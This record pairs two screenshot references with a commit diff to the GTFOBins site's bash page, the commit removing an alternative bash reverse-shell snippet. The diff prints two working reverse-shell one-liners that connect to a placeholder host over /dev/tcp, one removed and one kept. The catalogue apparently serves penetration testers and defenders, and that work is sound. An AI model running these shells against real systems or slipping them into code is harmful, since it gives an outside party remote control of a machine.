

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide. Shown: the whole page at 80% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1849 px from its top, so only the background shows below that.

Commit message:
Remove alternative bash reverse-shell

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -38,8 +38,4 @@ functions:
         RHOST=10.0.0.1
         RPORT=8000
         bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
-    - code: |
-        RHOST=10.0.0.1
-        RPORT=8000
-        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT; while read line 0<&5; do $line 2>&5 >&5; done
 ---
```
